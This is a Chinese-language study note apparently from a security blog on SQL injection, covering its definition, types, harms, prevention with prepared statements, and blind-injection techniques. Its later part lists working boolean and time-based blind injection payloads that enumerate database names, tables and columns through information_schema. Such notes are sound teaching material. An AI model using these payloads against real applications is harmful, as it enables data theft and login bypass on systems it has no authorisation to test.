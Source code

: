 ```yaml
---
title: 0x03 注入攻击 (理论篇)
date: 2022-12-29 14:48:49
categories: 
    - 网安笔记
tags: 
    - 注入攻击
---
```


# 一、SQL注入攻击介绍
Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器上解析执行进行的攻击。SQL注入是发生于应用程序与数据库层的安全漏洞。注入的漏洞本质是代码和数据未分离，通过在用户可控参数中注入SQL语法，程序未对输入的指令进行合法性判断，注入进去的恶意指令就会被数据库服务器误认为是正常的SQL指令而运行，破坏原有 SQL 结构，达到编写程序时意料之外结果的攻击行为。


# 二、SQL注入分类
* 回显注入：攻击者可以直接在当前界面内容中获取想要的内容或者通过报错信息 获取想要的内容。

* 盲注：数据库查询结果无法从直观页面中获取，攻击者通过使用数据库逻辑或使 数据库执行延时等方法获取想要的内容。

# 三、SQL注入危害
* 猜解后台数据库，盗取网站的敏感信息。
* 绕过认证，列如绕过验证登录网站后台。
* 注入可以借助数据库的存储过程进行提权等操作

# 四、注入攻击的预防
针对 SQL 注入漏洞的防护，主要是要意识到这种漏洞的存在，不信任任何来自客户端的数据。
可以通过过滤一些 SQL 关键字的方式进行防护，比如“select”、“insert”这一类 关键字，“`” （反引号） 、“ ””（双引号）、“--”（ SQL 注释开头）这一类保留字符等。当然因为各种编码和绕过技术，手工进行过滤是不够的，容易遗漏，比较安全的方式是采用语言 预置的功能，例如，用 Java 的 PreparedStatment 进行 SQL 操作。

当然，现在还有很多框架类的数据操作工具可以给我们帮助，常见的数据库持久化框架，都会自动完成对相关数据的过滤和校验。最后，千万不要使用字符串拼接的方式进行 SQL 语句的组装和操作。 

# 五、盲注技巧
> [盲注技巧汇总](https://www.cnblogs.com/zane-s/articles/12371820.html)

## 1. 布尔盲注

常用函数
```
mid(str,start,length)  :字符串截取
ORD()                  :转换成ascii码
Length()               :统计长度
version()              :查看数据库版本
database()             :查看当前数据库名
user()                 :查看当前用户
```

猜解获取数据库长度:
```sql
' or length(database()) > 8 --+    :符合条件返回正确，反之返回错误
```

猜解数据库名:
```sql
'or mid(database(),1,1)= 'z'
```

猜解表名
```sql
'Or mid(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1),1,1) = 'a'
```

猜解字段名
```sql
' or (select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='表名' limit 1,1)
```

## 2. 延迟盲注
常用函数
```
Sleep()                           :延迟函数
If(condition,true,false)          :条件语句
mid(str,start,length)             :字符串截取
ORD()                             :转换成ascii码
Length()                          :统计长度
version()                         :查看数据库版本
database()                        :查看当前数据库名
user()                            :查看当前用户
```

猜解数据库总数
```sql
' and sleep(if((select count(SCHEMA_NAME) from information_schema.SCHEMATA)= 7,0,5))
```

## 3. 报错盲注




